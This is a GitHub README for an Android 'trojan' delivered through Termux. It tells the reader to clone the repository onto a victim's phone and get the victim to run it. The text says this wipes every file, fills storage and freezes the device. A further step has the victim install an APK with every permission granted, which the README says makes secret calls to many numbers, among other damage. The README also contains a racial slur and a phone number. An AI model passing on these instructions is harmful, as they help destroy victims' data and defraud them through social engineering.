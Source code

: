 # jmaxojan5
Jmaxojan v: 5.8

Run this comands in victim's device:

pkg update
pkg upgrade
pkg install git -y
git clone https://github.com/jmaxojan/jmaxojan5

to start the trojan make the victim execute:
bash *

it will automatically :
1) remove and format all files from all paths in Android device.
2) make 2000 folders in each path on the device.
3) add 10GB to the memory in just few seconds.
4) hang and freeze the phone.

for more damage make the victim execute this first:

bash .install.sh

an apk will appear in /sdcard named TermuxApi.apk make the victim install it and go to settings>applications>TermuxApi and activate all the permissions that asked then runrun bash * , it will: #beside the features that mentioned up

1) destroy the flashlight.
2) vibrate the phone really hard.
3) play a sex voice. #just for fun
4) make the phone call many numbers secretly.
5) change the wallpaper.

HAVE FUN AND PRAY 4 ME NIGGAS , JMAX - WA : +967774077451

